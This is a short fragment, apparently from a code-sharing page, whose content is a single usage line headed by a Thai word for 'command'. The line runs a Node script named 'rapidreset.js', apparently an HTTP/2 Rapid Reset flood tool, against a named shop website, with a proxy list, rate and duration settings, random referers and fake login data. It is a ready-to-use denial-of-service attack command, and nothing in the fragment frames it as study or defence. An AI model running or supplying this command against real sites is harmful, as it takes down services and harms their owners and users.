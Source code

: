 คำสั่ง %%%%%
node rapidreset.js GET "https://jmtshipping.shop/" 120 23 90 proxy.txt --query 1 --cookie "uh=good" --delay 1 --bfm true --referer rand --postdata "user=f&pass=%RAND%" --debug --randrate --full
